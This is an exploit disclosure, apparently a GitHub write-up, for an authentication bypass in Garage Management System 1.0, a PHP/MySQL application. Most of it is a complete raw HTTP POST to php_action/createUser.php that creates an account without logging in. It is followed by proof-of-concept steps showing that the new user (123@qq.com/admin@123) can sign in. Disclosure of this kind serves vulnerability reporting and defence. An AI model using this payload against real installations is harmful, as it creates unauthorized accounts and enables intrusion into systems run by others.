

# Garage Management System  - create new user  Unauthorized


#### Exploit Title: Garage Management System  - create new user  Unauthorized
#### Exploit Author: webraybtl@webray.com.cn inc
#### Vendor Homepage: https://www.sourcecodester.com/php/15485/garage-management-system-using-phpmysql-source-code.html
#### Software Link:https://www.sourcecodester.com/download-code?nid=15485&title=Garage+Management+System+using+PHP%2FMySQL+Free+Source+Code
#### Version: Garage Management System  1.0
#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description
Confirmation of the user's identity, authentication, and session management is critical to protect against authentication-related attacks.

#### Payload used:
```
POST /php_action/createUser.php HTTP/1.1
Host: 192.168.67.9
Content-Length: 548
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.67.9
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfyEJMTq3SaowAIJ3
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.67.9/add-user.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

------WebKitFormBoundaryfyEJMTq3SaowAIJ3
Content-Disposition: form-data; name="currnt_date"


------WebKitFormBoundaryfyEJMTq3SaowAIJ3
Content-Disposition: form-data; name="userName"

123@qq.com
------WebKitFormBoundaryfyEJMTq3SaowAIJ3
Content-Disposition: form-data; name="upassword"

admin@123
------WebKitFormBoundaryfyEJMTq3SaowAIJ3
Content-Disposition: form-data; name="uemail"

123@qq.com
------WebKitFormBoundaryfyEJMTq3SaowAIJ3
Content-Disposition: form-data; name="create"


------WebKitFormBoundaryfyEJMTq3SaowAIJ3--


```


#### Proof of Concept

1. Send payload
   
2. Open Page http://192.168.67.9/users.php，See one more user added.

   

   

   

3. `123@qq.com/admin@123` can login system;

     


